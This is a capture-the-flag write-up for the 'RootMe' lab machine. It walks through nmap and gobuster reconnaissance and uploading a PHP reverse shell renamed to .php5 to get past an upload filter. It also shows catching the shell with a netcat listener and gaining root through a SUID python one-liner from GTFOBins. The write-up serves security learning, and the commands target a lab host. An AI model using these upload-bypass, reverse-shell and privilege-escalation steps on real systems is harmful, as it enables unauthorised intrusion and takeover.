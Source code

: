 # RootMe writeup

## Task 2 - Reconnaissance

First, we try to ping the machine. 

<code>

    PING 10.10.125.204 (10.10.125.204) 56(84) bytes of data.
    64 bytes from 10.10.125.204: icmp_seq=41 ttl=63 time=73.7 ms
</code>

From the ttl value, we can deduce that is a Linux machine (for Windows it's ttl=127). 

Now, to find the services exposed by the machine and the open ports, we can use a **nmap** scan: 

``nmap -sV -sC -oA nmap/initial 10.10.125.204``

As result we obtain: 

<code>

    Nmap scan report for 10.10.125.204
    Host is up (0.086s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
    |   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
    |_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-title: HackIT - Home
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

</code>

So, there is an Apache 2.4.29 server on port 80, and also ssh running on port 22. 

We can visit the web page: 

![web page](/RootMe/images/site.png)

As we can see, also inspecting the page, there's nothing useful (for now). 

We can scan hidden directory using **gobuster**: 

``gobuster dir -w /home/kali/SecLists-master/Discovery/Web-Content/common.txt -u http://10.10.125.204 -o gobusterCommonRoot.txt``

As result we obtain: 

![gobuster](/RootMe/images/gobuster.png)

The most interesting directory is */panel* and let's go visit it: 

![panel](/RootMe/images/panel.png)


## Task 3 - Gettin a shell

In the previous */panel* page, we are able to upload our files. So why not upload a web shell and then get a reverse shell?

If you are using Kali distribution, you can directly uoload ``/usr/share/webshells/php/php-reverse-shell.php`` file, changing the ip variable with your own ip. 

Unfortunately, there appears to be a filter on php file. 

![phpFilter](/RootMe/images/shell.png)

So, I try to change the file extension to *.php5*.
To obtain a reverse shell on our machine, we have to listen using netcat on port 1234 as follow: 

``nc -nlvp 1234``

The upload was successfull: 

![php5](/RootMe/images/shellPhp5.png)

Browsing to ``http://10.10.125.204/uploads/php-reverse-shell.php5`` we obtain our shell:

![reverse](/RootMe/images/reverse.png)

Let's cat user.txt flag

![flag](/RootMe/images/flag.png)


## Task 4 - Privilege escalation

Using ``find / -user root -perm /4000`` command, you can find files with SUID permission. To become root, we're going to use **/usr/bin/python**. 

A useful site is https://gtfobins.github.io/gtfobins/python/ that explains us how to exploit the suid above.

According to *gtfobins* we run

``python -c 'import os; os.execl("/bin/sh", "sh", "-p")'``

and now we are root of the system. So, we can cat root.txt flag. 



